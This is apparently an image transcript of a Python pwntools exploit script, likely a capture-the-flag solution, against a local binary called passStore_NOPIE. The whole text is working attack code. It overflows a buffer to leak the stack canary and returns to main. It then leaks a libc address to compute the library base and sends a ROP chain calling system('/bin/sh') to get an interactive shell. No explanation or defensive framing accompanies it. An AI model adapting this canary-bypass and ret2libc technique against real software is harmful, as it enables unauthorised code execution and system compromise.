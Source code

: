 ```python
from pwn import *

binary = ELF('./passStore_NOPIE')
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
rop = ROP(binary)
r = process(binary.path)
#gdb.attach(r , api=True)

#payload leak canary
payload1 = b"a"*56
r.sendline(payload1)

print(r.recvline())

canary = b"\x00"  +  r.recv(7).split(b"\n")[0] 
canary += b"\x00"*(8 - len(canary))
log.info("Leaked canary: " + str(hex(u64(canary))))

main = binary.symbols['main'] #0x0000000000401245
ret = rop.find_gadget(['ret'])[0] #0x000000000040101a

#payload to call main again
payload2 = b"a"*56 + p64(u64(canary)) + b"a"*8 + p64(ret) + p64(main)
r.sendlineafter(b"Retype: ",payload2)

#payload leak runtime address, to cal libc_base
payload3 = b"a"*23
r.sendlineafter(b"Type the password:",payload3)
print(r.recvline())

res = r.recv().split(b"\nRetype")[0].strip().ljust(8,b"\x00")

print(str(hex(u64(res))))

leaked_runtime_addr = u64(res) - 0x96 #setbuf
leaked_offset = libc.symbols['_IO_setbuffer'] #0x0000000000081540

libc_base = leaked_runtime_addr - leaked_offset
log.info("libc base addr : " + hex(leaked_runtime_addr))  


system_offset = libc.symbols['system'] #0x0000000000050d60
binsh_offset = next(libc.search(b'/bin/sh\x00'))
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]

system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset

# payload get shell
junk = b"a"*56 + p64(u64(canary)) + b"a"*8 
payload4 = junk +p64(ret)+ p64(pop_rdi_ret) + p64(binsh_addr) +p64(system_addr)

r.sendline(payload4)

r.interactive()
```
